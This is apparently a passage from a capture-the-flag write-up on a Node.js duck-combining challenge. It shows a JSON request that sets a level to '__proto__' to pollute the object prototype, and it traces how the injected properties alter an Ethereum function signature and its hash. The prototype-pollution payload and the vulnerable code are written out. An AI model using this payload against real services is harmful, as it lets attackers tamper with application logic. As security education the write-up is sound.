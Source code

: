 Then I try to test it locally and print out the prototype

By sending a POST request to /checkpoint with this json data :

```
{"userToken":"4gi22ibkv0p19lt5ck0xv7","sequences":[{"type":"combine","level":"__proto__","duckNames":["Dragana","Amoli"]}]}
```

It will pollute the prototype to this :

```
[Object: null prototype] {
  amount: NaN,
  names: [ 'Dragana❤️Amoli' ],
  lastCombined: 'Dragana'
}
```

But it has an error, because after the prototype pollution, it tries to access the `state.ducks[action.level - 1].amount`, which is undefined

```
error : TypeError: Cannot read properties of undefined (reading 'amount')
```

```js
            avoid(state.ducks[action.level - 1].amount < 2, "Not enough ducks")
```

But it doesn't matter because the prototype has been polluted and the properties stay there until the process end

```js
        // get the return type of the function
        this.returnType = functionAbi.outputs.map((x) => x.type);
        // get the function signature
        this.signature = functionAbi.name + "(" + this.types.join(",") + ")";
        console.log(this.signature);
```

Then, by printing out the function signature, we can see that it is changed from this :

```
checkpoint(uint256,(uint8,uint256,uint256)[])
```

to this :

```
checkpoint(uint256,(uint8,uint256,uint256)[],Dragana❤️Amoli,Dragana)
```

It added the `names` and `lastCombined` inside the function signature, which is then used to calculate the function signatire hash

```js
    getFunctionSignatureHash() { return web3.eth.abi.encodeFunctionSignature(this.signature);}
    encodeParameters(params) { return web3.eth.abi.encodeParameters(this.inputAbi, params) }
    encode(params) { return this.getFunctionSignatureHash() + this.encodeParameters(params).slice(2) }
```
